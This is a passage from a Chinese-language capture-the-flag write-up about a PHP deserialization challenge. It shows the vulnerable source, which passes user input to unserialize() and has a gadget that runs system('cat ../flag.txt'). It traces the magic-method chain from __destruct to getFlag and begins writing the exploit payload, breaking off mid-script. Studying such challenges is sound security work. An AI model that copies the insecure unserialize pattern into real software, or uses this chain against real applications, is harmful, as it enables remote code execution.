 	    public function __invoke($args)
	    {
	        echo $args."不是函数";
	    }
	}

	class test2
	{
	    private $a;
	    public function __toString()
	    {
	        $this->a->getFlag();
	    }
	}

	class flag
	{
    	public function getFlag()
    	{
    	    system('cat ../flag.txt');
    	}
	}
	$x = $_GET['x'];
	if (isset($x)) {
	    unserialize($x);
	}
	?>
	```

	很明显的一道反序列化的题，只是逻辑稍微绕一点，慢慢分析：

	*	想要触发flag类里面的getFlag()函数，可以看到在test2中`__toString()`方法中可以通过a去执行getFlag函数，那么`$a`就应该是flag类的对象

	* 	想要执行魔术方法`__toString()`，需要将test2类当作字符串输出，那么在cat类中的`__invoke`函数可以达到这个要求，所以$args应该是test2的对象

	*	想要执行`__invoke()`需要将一个对象作为函数去调用，我们可以找到在start类中可以将一个对象作为函数去调用，所以start中的`$start1`为cat类的对象，`$start2`		为test2类的对象

	*	想要执行start类中的get1()方法必须通过gg类的`__destruct`方法，而且其中的`$gg`应该是start2类的对象

	逻辑清楚了以后，直接写出payload：

	```php
	<?php
	class gg
	{
	    private $gg;
	    public function __construct()
	    {
	        $this->gg = new start();
	    }
	}
	class start
	{
	    private $start1;
	    private $start2;
	    public function __construct()
	    {
	        $this->start1 = new cat();
	        $this->start2 = new test2();
